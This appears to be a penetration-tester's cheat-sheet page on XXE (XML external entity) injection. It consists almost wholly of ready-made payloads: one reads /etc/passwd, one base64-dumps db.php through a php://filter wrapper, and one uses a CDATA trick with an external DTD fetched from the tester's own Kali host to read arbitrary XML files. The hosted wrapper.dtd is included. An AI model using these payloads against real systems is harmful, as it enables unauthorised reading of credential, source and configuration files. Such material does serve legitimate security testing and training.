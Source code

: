 # XXE

```xml
Content-Type: application/json

<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
	<bugreport>
		<title>&xxe;</title>
		<cwe></cwe>
		<cvss></cvss>
		<reward></reward>
	</bugreport>
```

{% code overflow="wrap" %}
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>wef</cwe>
		<cvss>wef</cvss>
		<reward>wef</reward>
	</bugreport>
```
{% endcode %}

## Reading XML Files with CDATA

Bypass < and > parsing issue

{% code overflow="wrap" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///file/to/read.xml" >
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://[KALI_IP]/wrapper.dtd" >
%dtd;
]>
<org.opencrx.kernel.account1.Contact>
  <lastName>&wrapper;</lastName>
  <firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
```
{% endcode %}

**wrapper.dtd** hosted on kali:

```xml
<!ENTITY wrapper "%start;%file;%end;">
```
